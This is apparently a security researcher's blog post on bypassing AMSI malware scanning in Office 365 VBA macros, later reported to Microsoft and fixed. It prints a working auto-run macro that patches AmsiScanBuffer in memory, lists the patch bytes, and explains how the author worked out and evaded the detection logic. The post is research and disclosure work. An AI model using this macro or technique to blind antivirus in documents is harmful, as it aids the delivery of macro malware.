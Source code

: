 ```yaml
---
date:   2019-03-24 00:00:00 +0200
tags: [posts]
excerpt: "Microsfot fixed their detection logic, so this doesn't work anymore."
title:  "Office 365 AMSI Bypass (fixed)"
---
```

# Introduction  
---
While I was playing around with the publicly available AMSI bypass PoCs for powershell I got curious if such bypass was available for Office 365. Google didn't show anything useful, so that's when I decided to try and port one of the powershell PoCs to VBA macro and see if it works.

If you aren't familiar with AMSI and the way to "bypass" it, I recommend reading the following resources first (in this order):
1. [https://www.cyberark.com/threat-research-blog/amsi-bypass-patching-technique/](https://www.cyberark.com/threat-research-blog/amsi-bypass-patching-technique/)
2. [https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/)
3. [https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
4. [https://rastamouse.me/2018/10/amsiscanbuffer-bypass---part-1/](https://rastamouse.me/2018/10/amsiscanbuffer-bypass---part-1/)
5. [https://rastamouse.me/2018/10/amsiscanbuffer-bypass---part-2/](https://rastamouse.me/2018/10/amsiscanbuffer-bypass---part-2/)
6. [https://rastamouse.me/2018/11/amsiscanbuffer-bypass-part-3/](https://rastamouse.me/2018/11/amsiscanbuffer-bypass-part-3/)
7. [https://rastamouse.me/2018/12/amsiscanbuffer-bypass-part-4/](https://rastamouse.me/2018/12/amsiscanbuffer-bypass-part-4/)
8. [https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/](https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/)

# Porting the AMSI Bypass to VBA  
---
First, I ported the patch from the "[AmsiScanBuffer Bypass - Part 3](https://rastamouse.me/2018/11/amsiscanbuffer-bypass-part-3/)" blog post of rastamouse. This implementation patched the beginning of `AmsiScanBuffer` function with the bytes `0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3` which are equivalent to:  
```nasm
mov eax, 80070057h
ret
```

The resulting macro is shown below:  
```vb
Private Declare PtrSafe Function GetProcAddress Lib "kernel32" (ByVal hModule As LongPtr, ByVal lpProcName As String) As LongPtr
Private Declare PtrSafe Function LoadLibrary Lib "kernel32" Alias "LoadLibraryA" (ByVal lpLibFileName As String) As LongPtr
Private Declare PtrSafe Function VirtualProtect Lib "kernel32" (lpAddress As Any, ByVal dwSize As LongPtr, ByVal flNewProtect As Long, lpflOldProtect As Long) As Long
Private Declare PtrSafe Sub CopyMemory Lib "kernel32" Alias "RtlMoveMemory" (Destination As Any, Source As Any, ByVal Length As LongPtr)

Private Sub Document_Open()
    Dim AmsiDLL As LongPtr
    Dim AmsiScanBufferAddr As LongPtr
    Dim result As Long
    Dim MyByteArray(6) As Byte
    Dim ArrayPointer As LongPtr

    MyByteArray(0) = 184 ' 0xB8
    MyByteArray(1) = 87  ' 0x57
    MyByteArray(2) = 0   ' 0x00
    MyByteArray(3) = 7   ' 0x07
    MyByteArray(4) = 128 ' 0x80
    MyByteArray(5) = 195 ' 0xC3

    AmsiDLL = LoadLibrary("amsi.dll")
    AmsiScanBufferAddr = GetProcAddress(AmsiDLL, "AmsiScanBuffer")
    result = VirtualProtect(ByVal AmsiScanBufferAddr, 5, 64, 0)
    ArrayPointer = VarPtr(MyByteArray(0))
    CopyMemory ByVal AmsiScanBufferAddr, ByVal ArrayPointer, 6
    
End Sub
```

I created a Word document with the embedded macro, saved it, opened it again and clicked "Enable Content". The following popup message showed, saying that the bypass was detected as malicious macro.  

![macro](https://idafchev.github.io/blog/assets/images/office365_amsi_bypass/malicious_macro_popup.png){: .align-center}  

I tried obfuscating the code by splitting the strings, but while this works in powershell it didn't work with VBA. If you've read the 8th resource I gave in the introduction, you probably remember the following picture:  
![amsi_vba.png](https://idafchev.github.io/blog/assets/images/office365_amsi_bypass/amsi_vba.png){: .align-center}  
*source:[https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/](https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/)*

VBA has a behavior log and the contents of this behavior log are passed to AMSI, which then passes them to the installed AV for scanning. This means that obfuscating the macro isn't going to work, thus I tried another approach. I took the address of `AmsiCloseSession` function and then added an offset to it, so I can get the address of `AmsiScanBuffer`. That way I used `"AmsiCloseSession"` string instead of `"AmsiScanBuffer"` in the `GetProcAddress` function, but this also got detected.

```vb
AmsiDLL = LoadLibrary("amsi.dll")
AmsiCloseSessionAddr = GetProcAddress(AmsiDLL, "AmsiCloseSession")
AmsiScanBufferAddr = AmsiCloseSessionAddr + 80
```

I needed to see what exactly was triggering the detection and for that purpose I used the API Monitor tool. In the picture below, you can see that the `AmsiScanString` function is used, not `AmsiScanBuffer`, and the final contents of the scanned buffer right before the detection. *Open the screenshot in a new tab to view in bigger format.*

![vba_behavior_log.png](https://idafchev.github.io/blog/assets/images/office365_amsi_bypass/vba_behavior_log.png){: .align-center}  

Note: You should be aware that API Monitor might interfere with the code. When I attached API Monitor before running the macro, `GetProcAddress` returned wrong address. As a workaround I used a `MsgBox` to pause execution right after `GetProcAddress` and then proceeded with attaching API Monitor.

If you disassemble `AmsiScanString` you'll notice that it calls `AmsiScanBuffer`, so I decided to patch both functions just to be sure. The patch is the same for both of them. Their disassembly can be seen in the following two pictures.

![amsi_scan_string.png](https://idafchev.github.io/blog/assets/images/office365_amsi_bypass/amsi_scan_string.png){: .align-center}  
![amsi_scan_buffer.png](https://idafchev.github.io/blog/assets/images/office365_amsi_bypass/amsi_scan_buffer.png){: .align-center}  

My theory was that the detection was based on the `"amsi.dll"` and `"kernel32.RtlMoveMemory()"` strings in the behavior log. To test this I did the following things:
1. Removed `RtlMoveMemory` from the code. This resulted in no detection.
2. Kept `RtlMoveMemory`, but changed `LoadLibrary` to load `"kernel32.dll"` instead. This of course crashed after `RtlMoveMemory`, but I verified with API monitor that everything including `RtlMoveMemory` was in the behavior log and passed to AMSI before crashing. Also no detection.
3. Removed `RtlMoveMemory`, used `LoadLibrary("kernel32.dll")` and `GetProcAddress(TargetDLL,"amsi.dll kernel32.RtlMoveMemory(123,123,123)")`. This showed up in the behavior log and was detected as malicious, although `LoadLibrary` didn't load `"amsi.dll"` and `RtlMoveMemory` was never called. The macro was blocked before execution so the invalid `GetProcAddress` was never actually called.

The result of the third step can be seen below:  
![detection_logic_test.png](https://idafchev.github.io/blog/assets/images/office365_amsi_bypass/detection_logic_test.png){: .align-center}  

This proved my theory that the detection was based on both `"amsi.dll"` and `"kernel32.RtlMoveMemory()"` strings when present in the behavior log. 

To get around this I tried using another function to patch memory. I used `RtlFillMemory` to patch one byte at a time and with it I successfully bypassed detection. I also verified with windbg that the functions were successfully patched. 

There was a problem though. If after the bypass code I added another WinAPI function then Word crashed. I figured that this might be caused by the rastamouse variant of the patch. I didn't know why and was too lazy to debug the issue so I just tried the patch from CyberArk which worked fine and didn't crash Word when I added more code after the bypass.

`AmsiScanStringAddr + 5` was patched with:  
```nasm
nop
xor edx, edx
```

`AmsiScanBufferAddr + 66` was patched with:  
```nasm
nop
xor eax, eax
```

PoC Video:  
[https://www.youtube.com/watch?v=9jXzP3UusD0](https://www.youtube.com/watch?v=9jXzP3UusD0)

# Contacting Microsoft  
---
This bypass isn't anything serious or groundbreaking, after all it's widely known that AMSI can be patched in memory. It's also known that this isn't a vulnerability according to Microsoft and probably it wouldn't get fixed, because the ability to patch AMSI is a by design weakness. I also wasn't sure if the Office 365 AMSI bypas was actually new or I didn't google enough.

But I still didn't feel comfortable sharing the code while someone could potentially use it in a macro malware... So I decided to contact Microsoft and suggest they add a detection for when `"amsi.dll"` is used with other memory modifying functions and not only `RtlMoveMemory`. Their response was that they modified their detection logic to address this issue :)

I'm still not sharing my final code, but by reading this blog post you should be able to write it yourself. Don't expect it to run if your Defender definitions are up to date!
